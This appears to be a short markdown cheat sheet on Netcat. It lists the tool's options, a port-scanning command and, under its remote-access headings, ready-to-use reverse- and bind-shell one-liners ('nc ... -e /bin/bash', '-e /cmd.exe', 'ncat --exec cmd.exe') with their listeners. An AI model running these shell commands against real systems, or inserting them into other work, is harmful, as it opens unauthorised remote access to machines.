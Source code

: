 # Netcat

 - A simple utility which reads and writes data across network connections, using TCP and UDP protocols.
 - There are few main operations of Netcat
    - Connecting to TCP/UDP port
    - Listening on TCP/UDP port
    - Transferring files with Netcat
    - Remote Administration with Netcat
    - Checking if the port is open or closed

## Parameter table
 - -n : Do not do any dns or service lookups on any specified address, hostname or port
 - -p : source port
 - -v : verbose
 - -z : specifies that nc should just scan for listening daemons without sending any data to them. It is an error to use this option with conjuction to -l option
 - -l : used to specify that nc should listen rather than initate connection to a remote host    

## Port scanning
 - #### nc -v -n -z -w 1 192.168.1.2 1-1000

## To get remote access on linux from windows
 - #### nc -nv 192.168.23.43 1337 -e /bin/bash
 - #### ncat -lnvp 1337   <-- server

## To get remote access on windows from linux
 - #### nc -nv 192.168.23.43 1337 -e /cmd.exe
 - #### ncat -lnvp 1337     <-- server

## Remote access via ssl and allow method
 - #### ncat --exec cmd.exe --allow 192.168.110.184 -vnl 1337 --ssl   <-- server
 - #### nc -nv 192.168.23.41 1337 --ssl

 
